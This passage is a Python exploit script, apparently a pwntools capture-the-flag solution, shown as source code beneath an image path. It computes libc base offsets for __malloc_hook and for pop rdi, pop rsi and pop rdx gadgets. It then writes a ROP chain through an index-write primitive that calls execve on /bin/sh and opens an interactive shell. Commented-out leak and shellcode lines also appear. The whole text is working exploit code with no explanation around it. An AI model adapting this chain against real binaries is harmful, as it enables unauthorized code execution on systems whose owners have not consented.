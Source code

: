```python

    # Calculate the __malloc_hook address
    libc_malloc_hook_offset = 0x1ebb70
    malloc_hook_addr = libc_base + libc_malloc_hook_offset
    log.info("__malloc_hook: 0x%x" % malloc_hook_addr)

    test_address = 0x11a3 + elf_start

    #arbitrary_write(p, index_base, free_hook_addr, test_address)

    #free_hook_leak = u64(leak(free_hook_addr).ljust(8, b"\x00"))
    #log.info("free_hook: 0x%x" % free_hook_leak)

    #p.sendline('%65537cZZZZ')

    # Calculate gadgets
    pop_rdi_offset = 0x0000000000026b72
    pop_rdi = libc_base + pop_rdi_offset
    log.info('pop rdi; ret: 0x%x' % pop_rdi)
    pop_rsi_offset = 0x0000000000027529
    pop_rsi = libc_base + pop_rsi_offset
    log.info('pop rsi; ret: 0x%x' % pop_rsi)
    pop_rdx_r12_offset = 0x000000000011c1e1
    pop_rdx_r12 = libc_base + pop_rdx_r12_offset
    log.info('pop rdx; pop r12; ret: 0x%x' % pop_rdx_r12)

    cur_gadget = 9

    def add_chain(gadget):
        nonlocal cur_gadget
        write_index(p, index_base, cur_gadget, gadget)
        cur_gadget = cur_gadget + 1

    # Write the rop chain
    #add_chain(pop_rdi)
    #add_chain(binsh_addr)
    #add_chain(ret_addr)

    shellcode = open("shellcode", 'rb').read()

    add_chain(pop_rdi)
    add_chain(binsh_addr)
    add_chain(pop_rsi)
    add_chain(0)
    add_chain(pop_rdx_r12)
    add_chain(0)
    add_chain(0xdeadbeef)
    add_chain(execve_addr)

    p.sendline("ZZZZ")
    p.recvuntil("ZZZZ")
    p.sendline("exit")
    log.success("Enjoy your shell!")
    #p.send(shellcode)

    p.interactive()

if __name__ == '__main__':
    main()
```
